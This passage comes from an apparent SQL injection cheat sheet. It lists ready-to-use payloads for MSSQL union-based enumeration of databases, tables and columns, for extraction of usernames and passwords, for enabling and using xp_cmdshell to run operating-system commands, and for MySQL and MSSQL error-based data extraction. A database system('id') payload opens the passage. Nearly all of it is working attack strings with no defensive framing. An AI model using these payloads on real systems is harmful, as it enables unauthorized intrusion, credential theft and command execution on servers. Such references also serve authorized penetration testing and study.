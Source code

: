 ```sql
'; SELECT system('id')--
```

### 4. MSSQL Union Injection
```sql
# Database enumeration
' UNION SELECT 1,name,3 FROM sys.databases--

# Table enumeration
' UNION SELECT 1,name,3 FROM sys.tables--

# Column enumeration
' UNION SELECT 1,name,3 FROM sys.columns WHERE object_id=OBJECT_ID('users')--

# Data extraction
' UNION SELECT 1,username,password FROM users--

# Command execution (if xp_cmdshell enabled)
'; EXEC xp_cmdshell 'whoami'--

# Enable xp_cmdshell
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--
```

## Error-Based SQL Injection

### 1. MySQL Error-Based
```sql
# ExtractValue function
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT database()),0x7e)))--
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT user()),0x7e)))--
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT version()),0x7e)))--

# UpdateXML function
' AND (SELECT UpdateXML(1,CONCAT(0x7e,(SELECT database()),0x7e),1))--

# Duplicate entry error
' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)x GROUP BY CONCAT((SELECT database()),FLOOR(RAND(0)*2)))--

# Data extraction with error-based
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT CONCAT(username,':',password) FROM users LIMIT 0,1),0x7e)))--
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT CONCAT(username,':',password) FROM users LIMIT 1,1),0x7e)))--
```

### 2. MSSQL Error-Based
```sql
# Convert function error
' AND 1=CONVERT(int,(SELECT @@version))--
' AND 1=CONVERT(int,(SELECT db_name()))--
' AND 1=CONVERT(int,(SELECT user_name()))--

# Cast function error
' AND 1=CAST((SELECT @@version) AS int)--

# Data extraction
' AND 1=CONVERT(int,(SELECT TOP 1 username FROM users))--
' AND 1=CONVERT(int,(SELECT TOP 1 username FROM users WHERE username NOT IN ('admin')))--
```
